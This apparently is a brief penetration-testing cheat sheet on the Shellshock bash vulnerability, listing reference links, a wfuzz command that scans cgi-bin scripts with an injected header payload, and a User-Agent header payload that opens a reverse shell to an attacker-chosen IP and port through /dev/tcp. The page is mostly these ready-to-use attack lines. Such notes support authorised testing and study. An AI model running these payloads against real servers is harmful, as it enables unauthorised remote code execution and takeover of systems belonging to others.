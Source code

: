 # Shellshocked
[infosecarticles](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)
[cve](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278)

[python2](https://www.exploit-db.com/exploits/34900)


[Wfuzz](https://wfuzz.readthedocs.io/en/latest/) can both enumerate `cgi-bin` scripts (using a wordlist) and test them for Shellshock:
```bash
wfuzz -v -c -H "User-agent: () { :;}; echo; echo vulnerable" --ss vulnerable -t 50 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt http://xx.xx.xx.xx/FUZZ
```

```bash
User-Agent: () { :;}; /bin/bash -c -c 'exec bash -i &>/dev/tcp/$IP/$PORT <&1'
```


![owasp](Images/shellshock-methodology.png)

## References

[infosecinstitute](https://resources.infosecinstitute.com/topic/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)
[pbr94's article](https://github.com/pbr94/Shellshock-Bash-Remote-Code-Execution-Vulnerability-and-Exploitation)